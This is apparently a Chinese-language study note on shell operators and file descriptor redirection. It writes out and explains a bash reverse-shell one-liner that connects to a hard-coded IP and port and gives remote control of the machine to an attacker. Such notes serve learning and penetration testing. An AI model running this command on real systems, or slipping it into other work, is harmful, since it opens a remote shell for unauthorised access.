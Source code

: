 ```yaml
---
title: 424
date: 2023-04-24 17:12:51
tags:
---
```




# cmd
& 和||前后的命令无论真假都全部执行
&&和|前命令为真，后命令才执行


# 反弹shell
`bash -i >& /dev/tcp/192.168.10.136/5555 0>&1`  这段代码是一个bash命令，用于在一个交互式的shell中执行命令。

1. `bash -i` 启动一个交互式的shell，即可以接受用户输入的shell

2. `>& /dev/tcp/192.168.10.136/5555`：将标准输出和标准错误重定向到一个TCP连接，连接的目标地址是192.168.10.136，端口号是5555。这意味着shell中执行的任何命令的输出都会发送到这个地址。

3. `0>&1` 将标准输入重定向到标准输出，即从TCP连接中读取输入。这意味着shell可以接受从这个地址发送过来的命令。

综上，这段代码的作用是创建一个反向shell，即在目标机器上运行一个shell，然后通过网络连接将其控制权交给攻击者。这是一种常见的渗透测试和黑客攻击的技术，可以让攻击者在目标机器上执行任意命令。

&>和>&含义相同都是：都是将标准错误输出和标准输出重定向

# 文件描述符的复制

格式： [n]<&[m] / [n]>&[m] **(这里所有字符之间不要有空格)**

说明：

1）这里两个**都是将文件描述符 n 复制到 m** ，两者的区别是，前者是以只读的形式打开，后者是以写的形式打开

**因此 0<&1 和 0>&1 是完全等价的（读/写方式打开对其没有任何影响）**

2）这里的& 目的是为了区分数字名字的文件和文件描述符，如果没有& 系统会认为是将文件描述符重定向到了一个数字作为文件名的文件，而不是一个文件描述符

